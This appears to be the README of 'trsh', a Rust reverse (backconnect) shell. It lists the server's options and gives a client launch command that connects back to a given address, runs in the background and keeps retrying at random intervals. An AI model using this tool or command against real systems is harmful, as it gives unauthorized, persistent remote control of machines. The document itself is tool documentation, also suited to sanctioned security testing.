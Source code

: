 # TRSH - tiny rust shell

trsh is a tiny backconnect shell written in rust. It should run under linux and MacOS. To get a static binary compile it with the rust musl target. 

trsh has the following components:

* trsh-server is the server component, sending commands to the backconnect client
* trsh-client is the client component, connecting back to the server and executing the commands sent by the server
* cryptolib is the crypto layer for the tiny rust shell. Currently there trsh can use Salsa20 or AES28. 

## trsh-server

The tiny rust shell server can be started with the following options:

``` shell
Server 1.0
asisdrico <asisdrico@outlook.com>
tiny rust shell server

USAGE:
    trsh-server [FLAGS] [OPTIONS] [COMMAND] [SUBCOMMAND]

FLAGS:
    -h, --help               Prints help information
    -r, --redirect_stderr    redirects stderr
    -V, --version            Prints version information

OPTIONS:
    -s, --server_addr <ADDRESS>    Sets the server address to listen to. [default: 127.0.0.1:4444]

ARGS:
    <COMMAND>    command to execute [default: w]

SUBCOMMANDS:
    get      
    help     Prints this message or the help of the given subcommand(s)
    put      
    shell    
```

## trsh-client

This is the backconnect client of the tiny rust shell. It can be started with the following options:

``` 
TRSH_NOLOOP=1 TRSH_DAEMON=1 ./trsh-client <backconnect ip:port>
```

* normal start mode is in foreground sleeping a random time in seconds as specified in the clients source SLEEP_MIN > SLEEPTIME < SLEEP_MAX between backconnect attempts.
* TRSH_NOLOOP=1 starts the client with no loop making exactly one backconnect attempt.
* TRSH_DAEMON=1 sends the client into background.

## License

Licensed under 

* MIT license (see LICENSE or http://opensource.org/licenses/MIT)

## Contribution

Unless you explicitly state otherwise, any contribution intentionally submitted for inclusion in the work by you shall be licensed as above, without any additional terms or conditions.
